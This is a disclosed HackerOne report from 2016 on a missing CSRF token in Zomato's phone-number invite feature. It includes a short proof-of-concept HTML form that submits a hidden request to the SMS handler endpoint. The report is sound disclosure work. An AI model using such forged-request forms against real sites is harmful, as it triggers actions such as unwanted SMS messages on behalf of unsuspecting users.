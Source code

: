 # CSRF AT INVITING PEOPLE THOUGH PHONE NUMBER

## Report Details
- **Report ID**: 113865
- **URL**: https://hackerone.com/reports/113865
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-02-01T14:07:30.808Z
- **Disclosed**: 2016-09-14T15:10:19.652Z

## Reporter
- **Username**: kiraak-boy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
Hello,

Please Add CSRF Token While Inviting The User Though Phone Number , You Have Good Rate Limit Protection But At The Same Time Add CSRF TOKEN :-

CODE :-

<html>
<body>
<form action="https://www.zomato.com/php/restaurantSmsHandler">
<input type="hidden" name="type" value="zomato&#45;app&#45;details" />
<input type="hidden" name="mobile&#95;no" value="xxxxxxxxxxxxxx" />
<input type="submit" value="Submit request" />
</form>
</body>
</html>

Thanks!

## Attachments
No attachments
